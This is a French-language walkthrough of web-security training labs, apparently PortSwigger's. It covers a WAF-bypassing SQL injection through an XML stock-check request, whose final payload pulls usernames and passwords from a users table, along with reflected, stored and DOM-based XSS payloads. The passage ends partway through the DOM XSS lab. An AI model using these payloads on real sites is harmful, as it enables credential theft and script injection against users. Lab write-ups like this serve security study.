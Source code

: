 Sur la page de n'importe quel produit, on observe que la fonction "Check stock" passe du XML au serveur dans une requête POST : 

    <?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>3</productId>
        <storeId>1</storeId>
    </stockCheck>

En testant des payloads de calcul, on voit que le résultat est évalué : 

    <storeId>1+1</storeId>
    
En testant un payload de UNION-based SQLI, on voit qu'un WAF nous a bloqué : 

    <storeId>1 UNION SELECT NULL</storeId>
    
> HTTP/2 403 Forbidden
> Content-Type: application/json; charset=utf-8
> X-Frame-Options: SAMEORIGIN
> Content-Length: 17

> "Attack detected"


Comme on injecte du XML, il est peut-être possible de contourner ce WAF grâce à un bypass inspiré des failles XXE. 
Voir : 
- https://portswigger.net/web-security/xxe/xml-entities
- https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100


Payload final : 

    <storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities></storeId>




## === Cross-site scripting ===

### Reflected XSS into HTML context with nothing encoded

Mettre “<script>alert(1)</script>” dans la barre de recherche.

### Stored XSS into HTML context with nothing encoded

Mettre “<script>alert(1)</script>” dans le commentaire.

### DOM XSS in document.write sink using source location.search

Entrer n’importe quoi dans la barre de recherche.
Remarquer le morceau suivant dans le code source : 

    function trackSearch(query) {
       document.write('<img src="/resources/images/tracker.gif?searchTerms=' + query + '">');
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if (query) {
       trackSearch(query);
    }
